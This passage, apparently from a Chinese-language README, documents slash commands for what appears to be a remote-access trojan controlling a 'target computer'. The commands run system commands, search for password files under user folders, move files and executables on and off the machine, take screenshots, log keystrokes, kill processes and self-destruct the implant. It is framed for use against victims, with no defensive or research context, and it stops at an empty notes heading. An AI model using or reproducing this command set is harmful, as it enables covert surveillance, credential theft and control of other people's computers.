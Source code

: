 ### 3. 命令执行
使用 `/cmd` 执行系统命令:
```
/cmd ipconfig /all
/cmd dir C:\Users
```

### 4. 文件操作
- **搜索文件**:
```
/search passwords.txt C:\Users
```

- **下载文件**:
```
/upload https://example.com/tool.exe
```

- **上传文件**:
```
/download C:\Users\user\Documents\file.txt
```

### 5. 屏幕监控
获取目标计算机的屏幕截图:
```
/screenshot
```

### 6. 键盘记录
- 开始记录: `/keylog start`
- 停止记录: `/keylog stop`
- 获取记录: `/keylog dump`

### 7. 进程管理
- 查看进程: `/ps`
- 终止进程: `/kill 1234`

### 8. 网络监控
查看网络连接:
```
/netstat
```

### 9. 自毁功能
删除程序自身:
```
/selfdestruct confirm
```

## 注意事项
